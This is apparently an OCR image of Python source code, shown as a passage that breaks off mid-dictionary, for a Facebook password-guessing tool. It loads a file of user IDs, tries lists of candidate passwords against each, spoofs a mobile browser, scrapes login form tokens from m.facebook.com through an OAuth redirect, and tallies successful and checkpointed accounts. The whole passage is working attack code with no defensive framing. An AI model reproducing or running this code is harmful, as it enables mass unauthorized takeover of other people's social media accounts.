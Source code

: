 
class __xxx__:
    def __init__(self):
        self.id = []
    def sarfrazx(self,id):
        os.system("clear")
        print(logo)
        self.cnt = input('Put File Name : ')
        self.id = open(self.cnt).read().splitlines()
        os.system('clear')
        print(logo)
        print("")
        ___worldwide___ = ('y')
        if ___worldwide___ in ('yes','Yes','Y', 'y'):
            self.__pler__()
        else:
            print(' [!] Choose Correct One');
            self.sarfrazx(id)
    def __metode__(self, user, __chi__, cebok):
        global ok,cp,loop
        sys.stdout.write(f"\r \x1b[1;97m[STRV] {loop}|{len(self.id)} [OK][{len(ok)}] [CP][{len(cp)}] ")
        sys.stdout.flush()
        try:
            for pw in __chi__:
                pw = pw.lower()
                session=requests.Session()
                header = {
                    "Host":"m.facebook.com",
                    "upgrade-insecure-requests":"1",
                    "user-agent":"NokiaX2-00/5.0 (08.25) Profile/MIDP-2.1 Configuration/CLDC-1.1 Opera/9.80 (Android; Opera Mini/7.5.33361/191.273; U; pt) Presto/2.12.423 Version/12.16 UNTRUSTED/1.0",
                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
                    "dnt":"1",
                    "x-requested-with":"mark.via.gp",
                    "sec-fetch-site":"same-origin",
                    "sec-fetch-mode":"cors",
                    "sec-fetch-user":"empty",
                    "sec-fetch-dest":"document",
                    "referer":"https://mbasic.facebook.com/",
                    "accept-encoding":"gzip, deflate br",
                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"
                }
                r = session.get(f'https://m.facebook.com/login.php?skip_api_login=1&api_key=410740733452846&kid_directed_site=0&app_id=410740733452846&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fv3.3%2Fdialog%2Foauth%3Fclient_id%3D410740733452846%26redirect_uri%3Dhttps%253A%252F%252Fdesawisatajanggadolok.com%252Flogin%252Ffacebook%252Fcallback%26scope%3Demail%26response_type%3Dcode%26state%3D0DtZqGnEJZ4qUreWFQ3UaCTDr5xXyZTCsaDBtAXO%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D267097fb-5e29-44fa-a8a7-6d55d7a03ccb%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fdesawisatajanggadolok.com%2Flogin%2Ffacebook%2Fcallback%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D0DtZqGnEJZ4qUreWFQ3UaCTDr5xXyZTCsaDBtAXO%23_%3D_&displ', headers=header)
                das = {
                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),
                    "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1),
                    "uid":user,
                    "flow":"login_no_pin",
                    "pass":pw,
                    "next":"https://developers.facebook.com/tools/debug/accesstoken/"
                }
                header1 = {
                    "Host":"m.facebook.com",
                    "cache-control":"max-age=0",
                    "upgrade-insecure-requests":"1",